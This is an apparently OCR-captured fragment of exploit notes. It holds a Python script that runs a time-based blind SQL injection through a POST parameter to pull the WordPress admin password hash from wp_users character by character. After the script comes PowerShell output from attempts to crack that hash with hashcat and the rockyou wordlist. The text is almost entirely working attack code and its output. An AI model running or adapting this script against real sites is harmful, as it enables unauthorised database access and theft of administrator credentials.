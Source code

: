 ```
`#             # Show what we have found so far...`  
`#             print("Admin username:", admin_username)`  
`#             break  # Move to the next character`  
`#     else:`  
`#         # Null byte reached, break the outer loop`  
`#         break`

`# Find admin password hash`  
`for idx_password in range(1, 41):  # Assuming the password hash length is less than 40 characters`  
    `# Iterate over all the printable characters + NULL byte`  
    `for ascii_val_password in (b"\x00" + string.printable.encode()):`  
        `# Send the payload`  
        `resp_password = session.post(url, data={`  
            `"nx_id": 1337,`  
            ``"type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx_password},1))={ascii_val_password},SLEEP({delay}),null)-- -"``  
        `})`

        `# Elapsed time > delay if delay happened due to SQLi`  
        `if resp_password.elapsed.total_seconds() > delay:`  
            `admin_password_hash += chr(ascii_val_password)`  
            `# Show what we have found so far...`  
            `print("Admin password hash:", admin_password_hash)`  
            `# Exit condition - encountered a null byte`  
            `if ascii_val_password == 0:`  
                `print("[*] Admin credentials found:")`  
                `# print("Username:", admin_username)`  
                `print("Password hash:", admin_password_hash)`  
                `exit(0)`

```

### Resultado do hashcat completo

```

PS C:\\Users\\rodri\\Downloads\\hashcat-6.2.6\\hashcat-6.2.6\> hashcat.exe \-m 400 \-a 0 hash.txt rockyou.txt  
hashcat.exe : The term 'hashcat.exe' is not recognized as the name of a cmdlet, function, script file, or operable  
program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.  
At line:1 char:1  
\+ hashcat.exe \-m 400 \-a 0 hash.txt rockyou.txt  
\+ \~\~\~\~\~\~\~\~\~\~\~  
	\+ CategoryInfo      	: ObjectNotFound: (hashcat.exe:String) \[\], CommandNotFoundException  
	\+ FullyQualifiedErrorId : CommandNotFoundException

Suggestion \[3,General\]: The command hashcat.exe was not found, but does exist in the current location. Windows PowerShell does not load commands from the current location by default. If you trust this command, instead type: ".\\hashcat.exe". See "get-help about\_Command\_Precedence" for more details.  
PS C:\\Users\\rodri\\Downloads\\hashcat-6.2.6\\hashcat-6.2.6\> /hashcat.exe \-m 400 \-a 0 hash.txt rockyou.txt  
/hashcat.exe : The term '/hashcat.exe' is not recognized as the name of a cmdlet, function, script file, or operable  
program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.  
At line:1 char:1  
\+ /hashcat.exe \-m 400 \-a 0 hash.txt rockyou.txt  
\+ \~\~\~\~\~\~\~\~\~\~\~\~  
```